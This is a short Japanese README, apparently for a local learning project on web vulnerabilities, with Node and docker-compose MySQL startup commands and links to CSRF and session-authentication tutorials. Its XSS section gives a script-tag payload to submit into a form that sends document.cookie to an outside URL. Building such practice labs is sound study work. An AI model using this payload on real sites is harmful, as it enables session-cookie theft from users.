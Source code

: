 ## 起動

```
npx nodemon index.js
```

```
dc up -d
dc exec mysql /bin/bash 
mysql -uroot -ptest
use test;
show tables;
select * from users;

+-------------------+
| Tables_in_test_db |
+-------------------+
| users             |
+-------------------+

dc down --volumes

```

## XSS

以下をフォームに入れて送信する
```
<script type='text/javascript'>document.location='https://www.google.com?cookie=' + document.cookie;</script>
```

## 認証方法

[Session Authentication](https://roadmap.sh/guides/session-authentication)

## 参考
[GoogleDoc](https://docs.google.com/document/d/1aWrifF9T9D7zEKrgalbekyStfXt0jegCnjblqRCkxFY/edit#)
[脆弱なサイトと罠サイトを実際に作って学ぶ『CSRF』とその対策](https://www.hypertextcandy.com/csrf-hands-on-tutorial)
[ホワイトハッカーへの道　三歩目](https://qiita.com/ichimura/items/e91df821a32aefa21bda)
